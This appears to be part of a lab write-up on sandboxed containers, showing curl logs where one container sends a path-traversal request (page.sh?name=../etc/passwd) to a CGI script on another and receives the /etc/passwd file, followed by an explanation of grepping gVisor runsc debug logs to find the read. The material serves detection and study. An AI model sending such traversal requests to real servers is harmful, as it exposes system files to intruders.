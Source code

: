 ```log
givsor231128-box201-1  | > Accept: */*
givsor231128-box201-1  | > 
givsor231128-box201-1  | * Mark bundle as not supporting multiuse
givsor231128-box201-1  | < HTTP/1.1 200 OK
givsor231128-box201-1  | < Content-Type: text/html
givsor231128-box201-1  | * no chunk, no close, no size. Assume close to signal end
givsor231128-box201-1  | < 
givsor231128-box201-1  | { [16 bytes data]
givsor231128-box201-1  | name=index.html
givsor231128-box201-1  | * Closing connection 0
givsor231128-box201-1  | index.html
givsor231128-box201-1  | <html>
givsor231128-box201-1  |   <head><title>HELLO123</title></head>
givsor231128-box201-1  |   <body>HELLO123</body>
givsor231128-box201-1  | </html>
givsor231128-box201-1  | *   Trying 172.17.0.3:3000...
givsor231128-box201-1  | * Connected to box101 (172.17.0.3) port 3000 (#0)
givsor231128-box201-1  | > GET /cgi-bin/page.sh?name=../etc/passwd HTTP/1.1
givsor231128-box201-1  | > Host: box101:3000
givsor231128-box201-1  | > User-Agent: curl/7.86.0-DEV
givsor231128-box201-1  | > Accept: */*
givsor231128-box201-1  | > 
givsor231128-box201-1  | * Mark bundle as not supporting multiuse
givsor231128-box201-1  | < HTTP/1.1 200 OK
givsor231128-box201-1  | < Content-Type: text/html
givsor231128-box201-1  | * no chunk, no close, no size. Assume close to signal end
givsor231128-box201-1  | < 
givsor231128-box201-1  | { [19 bytes data]
givsor231128-box201-1  | name=../etc/passwd
givsor231128-box201-1  | * Closing connection 0
givsor231128-box201-1  | ../etc/passwd
givsor231128-box201-1  | root:x:0:0:root:/root:/bin/sh
givsor231128-box201-1  | daemon:x:1:1:daemon:/usr/sbin:/bin/false
givsor231128-box201-1  | bin:x:2:2:bin:/bin:/bin/false
givsor231128-box201-1  | sys:x:3:3:sys:/dev:/bin/false
givsor231128-box201-1  | sync:x:4:100:sync:/bin:/bin/sync
givsor231128-box201-1  | mail:x:8:8:mail:/var/spool/mail:/bin/false
givsor231128-box201-1  | www-data:x:33:33:www-data:/var/www:/bin/false
givsor231128-box201-1  | operator:x:37:37:Operator:/var:/bin/false
givsor231128-box201-1  | nobody:x:65534:65534:nobody:/home:/bin/false
```

Once the two containers are up and running, we can check the `runsc` debug logs located in `/tmp/runsc/`. 

Using the `grep "/etc/passwd" /tmp/runsc/* | grep "cat"` to search the pattern. Let's break down what this command is intended to do based on standard usage of grep:

1. `grep`: This is the command-line utility for searching plain-text data sets for lines that match a specified pattern.
2. `/etc/passwd`: This is typically a path to a file, but in the context of grep, it is interpreted as the pattern to search for unless it is preceded by an option. `/etc/passwd` is actually a file that contains user account information on Unix-like systems.
3. `/tmp/runsc/*`: This seems to be the pattern of files to search within. The asterisk (*) signifies a glob pattern that matches any files or directories within the /tmp/runsc/ directory.
4. `|`: This is the pipe operator, which passes the output of one command as input to another command.
5. `grep "cat"`: This is searching the output from the previous grep for lines that contain the string "cat".
